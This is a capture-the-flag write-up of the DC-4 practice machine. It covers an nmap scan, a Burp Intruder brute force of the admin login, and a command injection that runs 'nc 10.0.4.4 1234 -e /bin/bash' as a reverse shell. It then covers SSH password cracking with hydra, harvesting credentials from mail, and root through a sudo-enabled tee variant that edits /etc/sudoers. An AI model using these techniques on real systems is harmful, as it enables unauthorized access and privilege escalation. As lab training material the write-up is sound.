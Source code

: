 # DC-4
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/1.png" >
</p>
Let’s start with scanning my local private network to get the adress IP of my target.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/netdiscover.png" >
</p>
the adress of my target => 10.0.4.20
Our next step is to scan our target with NMAP.
```
nmap -sC -sV -o scan.nmap 10.0.4.20
```
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/scan.png">
</p>
there is one port open: 80=> server APACHE et 22 => ssh.
Let's check the server Apache on port 80.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/1.png" >
</p>
Here is a login authentication, I tried first with **sqlmap** but no way to get logged in.So I tried brute forcing
with burp suite, we start first by intercepting the request after send it to Intruder.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/2.png" >
</p>
for all passwords trying I get the same code lenght, with **happy** password I get a different code. It is probably the right password 
for the admin account.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/3.png" >
</p>
Great, we logged in and there three options to execute some listed commands.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/4.png" >
</p>
So I edit the code source of the page and change the command "ls -al" to "nc 10.0.4.4 1234 -e /bin/bash". This command send a reverse
shell to my listener.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/6.png" >
</p>
That is working, I have a reverse shell and I logged in as a www-data user.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/7.png" >
</p>
I check the home directory for any useful information. Under the jim directory I find a list of his older passwords.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/8.png" >
</p>
I tried every password in the list with hydra through ssh login.Finally jibril04 is the correct password.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/9.png" >
</p>
I logged in with ssh with jim credentials. I check the home directory nothing useful,
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/10.png" >
</p>
So I read jim emails /var/mail/jim that is containing the charles password.
 <p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/11.png" >
</p>
I switch to charles user, and I run **sudo -l** and I found something valuable, /usr/bin/teehee command can be run as a root.
teehee command reads the standard input and writes it to both the standard output and one or more files.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/12.png" >
</p>
So I changed the file /etc/sudoers to give charles priviledge to execute every command as root.I run /bin/bash as root.
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/DC-4/root_access.png" >
</p>
<p align="center">
  <img src="https://rajoul.github.io/my_write_up/image/gif/lhjar.gif" width="460" height="170">
</p>
support me on [twitter](https://twitter.com/rajoul6)











